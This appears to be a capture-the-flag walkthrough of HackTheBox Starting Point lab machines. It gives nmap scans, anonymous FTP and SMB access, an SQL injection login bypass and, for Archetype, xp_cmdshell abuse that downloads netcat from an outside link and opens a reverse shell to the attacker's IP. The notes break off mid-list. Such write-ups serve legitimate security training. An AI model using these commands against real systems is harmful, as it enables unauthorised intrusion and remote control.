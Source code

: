 # HackTheBox : Starting Point

## Meow

1. Enumeration:
    1. Nmap: `$ nmap -v -A -T4 <IP>`  --> telnet : 23/tcp
2. Exploitation:
    1. telnet: `$ telnet <IP>`  --> User : `root`
3. Flag:
    1. `$ cat flag.txt`

## Fawn

1. Enumeration:
    1.Nmap: `$ nmap -v -A -T4 <IP>`  --> ftp-anon : 21/tcp
2. Exploitation:
    1. ftp: `$ ftp <IP>`  --> user : Anonymous / password : <empty>
3. Flag:
    1. `ftp> get flag.txt` --> download file

## Dancing

1. Enumeration:
    1. Nmap: `$ nmap -v -A -T4 <IP>` --> smb : 445/tcp
2. Exploitation:
    1. smbclient: `$ smbclient -L <IP>` --> list the available shares
    2. smbclient: `$ smbclient -N \\\\<IP>\\<share>` --> connect to share -N = no auth
3. Flag:
    1. `smb: \> get flag.txt` --> download file

## Appointment

1. Enumeration:
    1. Nmap: `$ nmap -v -A -T4 <IP>` --> Apache/2.4.38 (Debian) : 80/tcp
2. Exploitation:
    1. SQLi: username = `admin` & password = `' OR 1=1 #`
3. Flag:
    1. Displayed onscreen.

## Sequel

1. Enumeration:
    1. Nmap: `$ nmap -v -A -T4 <IP>` --> mysql : 3306/tcp
2. Exploitation:
    1. mysql: `$ mysql -h <IP> -u root`
    2. mysql: `MariaDB [(none)]> SHOW databases;`
    3. mysql: `MariaDB [(none)]> USE htb;`
    4. mysql: `MariaDB [(htb)]> SHOW tables;`
    5. mysql: `MariaDB [(htb)]> SELECT * FROM config;`
3. Flag:
    1. Read from table.

## Crocodile

1. Enumeration:
    1. Nmap: `$ nmap -v -A -T4 <IP>` --> ftp-anon : 21/tcp && Apache/2.4.41 (Ubuntu) : 80/tcp
2. Exploitation:
    1. ftp: `$ ftp <IP>`  --> user : Anonymous / password : <empty>
    2. ftp: `ftp> dir` --> list all files available
    3. ftp: `ftp> get allowed.userlist` --> download file
    4. ftp: `ftp> get allowed.userlist.passwd` --> download file
    5. dirsearch: `$ dirsearch -u http://<IP>/` --> found `/login.php` page
    6. Use creds found in both files
3. Flag:
    1. Displayed onscreen.

## Archetype

1. Enumeration:
    1. Nmap: `$ nmap -v -A -T4 <IP>` --> smb : 445/tcp && mssql : 1433/tcp
2. Exploitation:
    1. smbclient: `$ smbclient -L <IP>` --> list the available shares
    2. smbclient: `$ smbclient -N \\\\<IP>\\<share>` --> connect to share -N = no auth
    3. smbclient: `smb: \> get prod.dtsConfig` --> credentials found in file
    4. impacket-mssqlclient: `$ impacket-mssqlclient ARCHETYPE/sql_svc:<password>@<IP> -windows-auth` --> connect to mssql
    5. MSSQL: `SQL> enable_xp_cmdshell;` --> enable xp_cmdshell to run commands
    6. MSSQL: `SQL> RECONFIGURE;`
    7. MSSQL: `SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget <link to netcat executable> -outfile nc64.exe` --> download netcat in folder where we have enough privileges (downloads)
    8. netcat: `nc -nvlp 4444` --> netcat listening on our machine
    9. MSSQL: `SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <MyIP> 4444` --> target machine is connecting to our listening netcat, and will run through cmd.exe everythin our netcat sends, to send it back to us
    10. netcat->cmd: `C:\Users\sql_svc\Downloads>powershell` --> listening netcat is now a powershell shell
    11. netcat->powershell: `PS> wget <link to winpeas executable> -outfile winPEASx64.exe` --> download winPEAS on target machine
    12. 